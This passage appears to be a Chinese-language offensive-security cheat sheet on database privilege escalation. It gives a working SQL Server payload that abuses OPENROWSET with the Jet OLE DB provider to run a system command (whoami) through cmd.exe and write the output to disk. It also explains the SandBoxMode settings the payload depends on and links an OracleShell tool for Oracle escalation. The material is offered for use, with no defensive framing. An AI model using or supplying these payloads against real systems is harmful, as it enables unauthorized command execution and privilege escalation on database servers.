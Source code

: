 **利用jet.oledb执行系统命令**

```sql
select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c whoami > c:\\666.txt")')
```

这个也是无回显的

**沙盒模式SandBoxMode参数含义（默认是2）**

> `0`：在任何所有者中禁止启用安全模式
>
> `1` ：为仅在允许范围内
>
> `2` ：必须在access模式下
>
> `3`：完全开启

openrowset是可以通过OLE DB访问SQL Server数据库

OLE DB是应用程序链接到SQL Server的的驱动程序

### Oracle提权

利用[OracleShell.jar](https://github.com/jas502n/oracleShell)工具